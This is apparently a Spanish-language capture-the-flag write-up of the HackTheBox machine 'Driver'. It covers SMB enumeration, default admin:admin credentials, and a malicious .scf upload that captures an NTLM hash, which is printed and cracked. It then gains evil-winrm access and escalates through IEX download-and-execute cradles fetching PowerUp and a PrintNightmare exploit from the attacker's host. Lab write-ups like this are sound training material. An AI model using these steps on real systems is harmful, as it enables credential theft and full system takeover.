# Driver

```bash
nmap -p- --open -sCV --min-rate=5000 -n 10.129.60.95 -oN nmap_scan.txt
```



Y los scripts



-
```bash
crackmapexec smb 10.129.60.95
```



Nos reporta: *Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)*

- Comprobamos si podemos acceder mediante sesión nula a smb
```bash
smbclient -N 10.129.60.95 -N
```

ó
```bash
smbmap -H 10.129.60.95 -u 'null'
```

- Error en las dos

- Windows IIS/10.0
Vemos puertos como
- msrpc



- windows-ds (domain service)



- Dos servidores http
- 80 -> **Microsoft-IIS/10.0**, *php 7.3.25*,
- 5985 -> **microsoft-HTTPAPI/2.0** ->



- Es una *MFP firmware update center* ->



- Entro con **admin:admin**



-
```bash
gobuster dir -u http://10.129.60.95 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x html,php,txt
```



- No subdominios

- Subiremos un archivo **.scf** que intente cargar un recuro (icono) que apunte hacia un servidor smb en nuestra máquina, y así obtener las credenciales hasheadas de la persona que lo lea para poder crackearlas.
El .scf no es mas que el archivo que define qué icono y alguna configuración más tiene un archivo dentro del explorador de archivos.
- Las credenciales viajan a nuestro smbserver en paquetes NTLM,
- NTLM (NT LAN Manager) es un protocolo de autenticación de Windows
Ejemplos reales:
- Carpetas SMB
- Impresoras de red
- Servicios internos
- Dominios Windows antiguos
- Autenticación automática entre máquinas Windows

- Hemos llegado a la conclusión de que tenemos que subir este archivo porque en la descripción de la web nos dicen que "alguien" mirará pronto el archivo, por lo cual al listarlo se desencadenará el proceso



-
```bash
nvim pwned.scf
```

```
[Shell]
Command=2
IconFile=\\10.10.17.61\smbFolder\test.ico
[Taskbar]
Command=ToggleDesktop
```

- El recurso que enumeramos no tiene por qué existir
```bash
impacket-smbserver smbPwned $(pwd) -smb2support
```

¿Por qué le damos soporte a smb2? ->



¿Qué pasa si no lo usamos? ->



- Subimos el archivo al selector de archivo



- Obtenemos las credenciales



```text
tony::DRIVER:aaaaaaaaaaaaaaaa:ecf8894dfcd99ae52757cc81c6fc55d7:010100000000000000605755a790dc01e0ceb5cc24789e5a000000000100100043007500430062004a004200530055000300100043007500430062004a00420053005500020010006c0068006d00550042006c0070006d00040010006c0068006d00550042006c0070006d000700080000605755a790dc010600040002000000080030003000000000000000000000000020000030be21811a68081777ad89b1e474b45b45e0e0354ad605cd6d091914e664cc560a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310037002e0036003100000000000000000000000000
```

-



- Metemos el hash en un archivo *hash*

- Crackeamos con john
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



**tony:liltony**

- Utilizamos *crackmapexec* (nos da una shell por smb y otros protocolos ->



) para conectarnos a la máquina con las credenciales obtenidas

```bash
crackmapexec smb 10.129.60.95 -u 'tony' -p 'liltony'
```



Obtenemos un resultado positivo, luego las credenciales son correctas

- Probaremos ahora a conectarnos por *winrm* y ver si podemos acceder
```powershell
crackmapexec winrm 10.129.60.95 -u 'tony' -p 'liltony'
```



*WinRM* es Windos Remote Management, lo que ssh a linux



Para acceder con este usuario a la remote shell, deberá estar en el grupo de *Administrators* o de *Remote Management Users*.
Este servicio corre en el puerto **5985**, no aparece *winrm* como tal porque está encapsulado en HTTP

- Nos conectamos con la herramienta *evil-winrm*
```bash
evil-winrm -i 10.129.60.95 -u tony -p liltony
```

driver\tony

## Escalada

- Listamos privilegios
```powershell
whoami /priv
```

No vemos nada de SeImpersonatePrivilege -> JuicyPotato, RottenPotato

- Utilizaremos una utilidad llamada *powerup.ps1* para detectar vías potenciales de escalada de privilegios. Lo descargamos de gihub -> rama *DEV* -> *RAW*
```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/dev/Privesc/PowerUp.ps1
```

Añadimos al final del archivo
```bash
Invoke-AllChecks
```

para que ejecute todas las comprobaciones

- Levantamos un servidor http con
```bash
python3 -m http.server 80
```

- Desde la máquina Windows accedemos a nuestro servidor http con
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.17.61/PowerUp.ps1')
```

- *IEX*: coge un string y lo interpreta como un código PowerShell ejecutándolo
- *New-Object Net.WebClient*: crea un objeto WebClient que sirve para descargar/leer archivos
- *downloadString('http://10.10.17.61/PowerUp.ps1')*: hace un get http a /10.10.17.61/PowerUp.ps1 y lo devuelve como string
Obtenemos info pero no mucha (habrá algunas funciones que fallarán por no tener permisos pero estamos okey)



- Utilizaremos otra utilidad similar que es *winPEAS*
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe
Nos vamos a *Precompiled binaries* y descargamos **winPEASx64.exe**

- Subimos el archivo con
```powershell
upload /home/qarlg/Labs/HackTheBox/driver/winPEASx64.exe
```



- Lo ejecutamos
```powershell
.\winPEASx64.exe
```

Vemos un proceso explotable llamado *spoolsv*



- Exploit en github para spoolsv
```bash
wget https://raw.githubusercontent.com/JohnHammond/CVE-2021-34527/refs/heads/master/CVE-2021-34527.ps1
```

- Lo subimos
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.17.61/CVE-2021-34527.ps1')
```



- Nos crearemos un usuario tal y como nos dice el readme
```powershell
Invoke-Nightmare -DriverName "Xerox" -NewUser "qarlg" -NewPassword
net user
```



```powershell
net user qarlg
```

Estamos dentro del grupo Adminsitrators



- Nos salimos del usuario **tony**

- Comprobaremos que las credenciales son correctas
```powershell
crackmapexec winrm 10.129.60.95 -u 'qarlg' -p 'qarlg123'
```



Pwned

- Accedemos con evil-winrm
```bash
evil-winrm -i 10.129.60.95 -u qarlg -p qarlg123
```

qarlg
